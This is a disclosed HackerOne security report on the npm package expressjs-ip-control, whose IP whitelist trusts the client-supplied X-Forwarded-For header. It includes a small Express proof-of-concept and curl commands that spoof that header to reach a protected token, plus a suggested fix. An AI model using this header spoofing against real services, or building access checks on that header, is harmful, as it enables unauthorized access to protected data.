 # [expressjs-ip-control] Whitelist IP bypass leads to authorization bypass and sensitive info disclosure

## Report Details
- **Report ID**: 693788
- **URL**: https://hackerone.com/reports/693788
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-09-12T15:55:04.541Z
- **Disclosed**: 2020-10-29T19:27:29.116Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `unauthenticated access/authorization bypass` issue in the `expressjs-ip-control` module.
It allows to `bypass` the `whitelist IP check` in order to bypass the `authorization check` and possibly `expose sensitive datas`.

# Module
**module name:** [MODULE NAME]
**version:** [MODULE VERSION]
**npm page:** `https://www.npmjs.com/package/[MODULE NAME]`

## Module Description
> Expressjs package to whitelist IP addresses also support for x-forwarded-for ip addresses.

## Module Stats
[`N/A`] downloads in the last day
[`17`] downloads in the last week
[`~250`] downloads in the last month

## Vulnerability Description
The issue arises because the module checks if is present in the request a `X-Forwarded-For` header, and bases the authorization on that check ... as we know, that header can be simply manipulated, in order to `bypass` the protection, leading to `sensitive information disclosure`.

## Steps To Reproduce:
1. Install the module: `npm i expressjs-ip-control`
2. Create a PoC file like this:

```js
// poc.js
const express = require('express')
const app = express()
const ipControl = require('expressjs-ip-control')
 
app.get('/', ipControl({
    whitelist: '127.0.0.1, 192.168.10.10',
}), (req, res) => res.send('SECRET TOKEN ACCESSIBLE ONLY BY LOCAL PC'))

app.listen(3000)
```
3. Run the PoC: `node poc.js`
4. Now, test the `whitelist` protection with this commands: 

```bash
curl 'http://localhost:3000/' # Obtain *403* response --> *You do not have rights to visit this page*
curl 'http://localhost:3000/' -H 'X-Forwarded-For: 127.0.0.1' # Obtain *200* response --> secret token
```
{F581254}

## Patch
> Don't check for the `x-forwarded-for` header, has it can be changed leading to `IP whitelist` bypass

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: 10.16.3
- [NPM VERSION]: 6.0.9

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 

I'm not sure you'll consider this issue valid, as the `x-forwarded-for` header support, is a feature of the library. However, this "feature" leads to the issue I've described. If you won't consider this valid, pls be clement and also, can I know if you consider valid the same issue applied to a `blacklist` module? (in that case, it could allow attackers blacklisted to change IP without change PC and so continue DOS/spam the server :))

## Impact

`Whitelist IP bypass`, leading to`Authorization issue` on `expressjs-ip-control`, may lead to `sensitive information disclosure`

## Attachments
- Screenshot_from_2019-09-12_15-36-06.png

